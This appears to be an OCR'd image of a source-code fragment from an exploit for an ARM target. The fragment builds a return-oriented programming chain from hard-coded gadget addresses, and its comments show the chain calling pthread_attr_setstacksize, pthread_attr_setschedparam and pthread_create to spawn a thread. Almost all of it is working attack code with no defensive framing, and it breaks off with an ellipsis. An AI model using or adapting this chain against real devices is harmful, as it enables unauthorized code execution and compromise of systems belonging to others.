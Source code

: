 ```
rop_chain += p32(0xc00a3594) # r9
rop_chain += p32(0x00000000) # r11
rop_chain += p32(0xc00bad9c) # pc

# | 0xc00bad9c | cpy r0,r6 | c00bada0 | blx r9 |  
# | 0xc00a3594 | cpy r1,r8 | c00a3598 | blx r7 |

## call pthread_attr_setstacksize
# | 0xc03edf0c | c03edf0c | blx r5 | c03edf14 | ldmia sp!,{r4,r5,r6,r7,r8,r9,r11,pc} | 
rop_chain += p32(0x00000000) # r4
rop_chain += p32(0xc01fdacc) # r5
rop_chain += p32(0xc09cc4a8) # r6 <- address of our attribute thing (copied into r0)
rop_chain += p32(0xc03edf0c) # r7
rop_chain += p32(0xc04528b8) # r8 <- pointer to 0xf (schedparam)
rop_chain += p32(0xc00a3594) # r9
rop_chain += p32(0x00000000) # r11
rop_chain += p32(0xc00bad9c) # pc

# | 0xc00bad9c | cpy r0,r6 | c00bada0 | blx r9 |  
# | 0xc00a3594 | cpy r1,r8 | c00a3598 | blx r7 |

## call pthread_attr_setschedparam
# | 0xc03edf0c | c03edf0c | blx r5 | c03edf14 | ldmia sp!,{r4,r5,r6,r7,r8,r9,r11,pc} | 
rop_chain += p32(0xc0011590) # r4
rop_chain += p32(0x00000000) # r5 <- has to be null
rop_chain += p32(0xc09cc3a8) # r6 <- address thread id gets saved to
rop_chain += p32(0xc03adfec) # r7
rop_chain += p32(0xc09cc4a8) # r8 <- address of attribute thing
rop_chain += p32(0xc00a3594) # r9
rop_chain += p32(0x00000000) # r11
rop_chain += p32(0xc00bad9c) # pc

# | 0xc00bad9c | cpy r0,r6 | c00bada0 | blx r9 |   
# | 0xc00a3594 | cpy r1,r8 | c00a3598 | blx r7 |
# | 0xc03adfec | cpy r3,r5 | c03adfec | blx r4 |  

# | 0xc0011590 | ldmia sp!,{r4,r5,r6,r7,r8,pc} |
rop_chain += p32(0x00000000) # r4
rop_chain += p32(0x00000000) # r5
rop_chain += p32(0xc00388dc) # r6
rop_chain += p32(0xc04773a0) # r7
rop_chain += p32(0xc08e4ee0) # r8 <- malloc'd buffer (gets copied into r2)
rop_chain += p32(0xc057248c) # pc

# | 0xc057248c | c057248c | ldr r5,[r8,#0x0] | c0572490 | blx r7 | 

# | 0xc04773a0 | c04773a0 | cpy r2,r5 | c04773a4  | blx r6 | 

# | 0xc00388dc | ldmia sp!,{r4,r5,pc} |
rop_chain += p32(0x00000000) # r4
rop_chain += p32(0xc037d578) # r5 <- address of pthread_create
rop_chain += p32(0xc03edf0c) # pc

## call pthread_create and do fixup after
# | 0xc03edf0c | c03edf0c | blx r5 | c03edf14 | ldmia sp!,{r4,r5,r6,r7,r8,r9,r11,pc} | 

...
```
